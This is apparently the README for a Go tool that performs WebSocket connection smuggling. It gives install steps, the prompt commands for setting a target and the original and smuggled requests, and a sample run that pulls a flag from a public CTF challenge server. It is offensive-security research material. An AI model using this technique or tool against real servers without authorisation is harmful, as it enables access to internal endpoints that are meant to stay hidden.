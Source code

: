 <img src="https://user-images.githubusercontent.com/13212227/70248653-8de45d00-17be-11ea-9602-6b8f2754ddfb.png">

<a href="https://twitter.com/intent/follow?screen_name=hahwul"><img src="https://img.shields.io/twitter/follow/hahwul?style=flat-square"></a>

# websocket-connection-smuggler
## Dependency
```cassandraql
$ go get -u github.com/c-bata/go-prompt
```

## Install 
```cassandraql
$ go get github.com/hahwul/websocket-connection-smuggler
```

or 

```cassandraql
$ git clone https://github.com/hahwul/websocket-connection-smuggler
$ cd websocket-connection-smuggler
$ go build
$ ./websocket-connection-smuggler
```

## Usage
### 1. run wcs(websocket-connection-smuggler)
```cassandraql
$ websocket-connection-smuggler
```

### 2. set target address(domain or ip address)
```cassandraql
$ WCS(...) > set target {your target}
```

### 3. is SSL? (default is false)
```cassandraql
# HTTPS
$ WCS(...) > set ssl true

# HTTP
$ WCS(...) > set ssl false
```

### 4. set original request(o_data)

It used the default editor defined in the environment variables, such as vim and no. If you don't have any special settings, vim is the default.
```cassandraql
$ WCS(...) > set o_data
```

e.g
```cassandraql
GET /socket.io/?transport-websocket HTTP/1.1
Host: localhost:80
Sec-WebSocket-Version: 4444
Upgrade: websocket

```

### 5. set smuggling reqeust(s_data)

It used the default editor defined in the environment variables, such as vim and no. If you don't have any special settings, vim is the default.
```cassandraql
$ WCS(...) > set s_data
```

e.g
```cassandraql
GET /flag HTTP/1.1 
Host: localhost:5000

```

## Test to 0ang3el Websocket Smuggling Challenge
```

             ___          
            /   \\        
       /\\ | . . \\       
     ////\\|     ||       
   ////   \\ ___//\       
  ///      \\      \      
 ///       |\\      |     
//         | \\  \   \    
/          |  \\  \   \   
           |   \\ /   /   
           |    \/   /    
            ---------
     WebSocket Connection Smuggler
     by @hahwul

WCS(target=>None | ssl=>false ) > set target challenge.0ang3el.tk:80
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > set o_data
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > set s_data
WCS(target=>challenge.0ang3el.tk:80 | ssl=>false ) > send
GET /socket.io/?transport-websocket HTTP/1.1
Host: localhost:80
Sec-WebSocket-Version: 4444
Upgrade: websocket

2019/11/30 03:39:15 HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 49
Date: Fri, 29 Nov 2019 18:39:15 GMT

{"flag": "In 50VI37 rUS5I4 vODK@ DRiNKs YOu!!!"}
gth: 119
Date: Fri, 29 Nov 2019 18:39:14 GMT

        �0{"pingInterval":25000,"pingTimeout":60000,"upgrades":["websocket"],"sid":"5148720e07f240a99e6aa7457f41686f"}�40
```

## Video on asciinema
[![asciicast](https://asciinema.org/a/vSYXtlQtvh7yBh0uBES9r5BMV.svg)](https://asciinema.org/a/vSYXtlQtvh7yBh0uBES9r5BMV)

## Donate
I like coffee! I'm a coffee addict.<br>
<a href="https://www.paypal.me/hahwul"><img src="https://www.paypalobjects.com/digitalassets/c/website/logo/full-text/pp_fc_hl.svg" height="50px"></a>
<a href="https://www.buymeacoffee.com/hahwul"><img src="https://cdn.buymeacoffee.com/buttons/default-black.png" alt="Buy Me A Coffee" height="50px"></a>

## Reference
- https://speakerdeck.com/0ang3el/whats-wrong-with-websocket-apis-unveiling-vulnerabilities-in-websocket-apis
- https://www.hahwul.com/2019/10/websocket-connection-smuggling.html
- https://github.com/hahwul/websocket-connection-smuggling-go
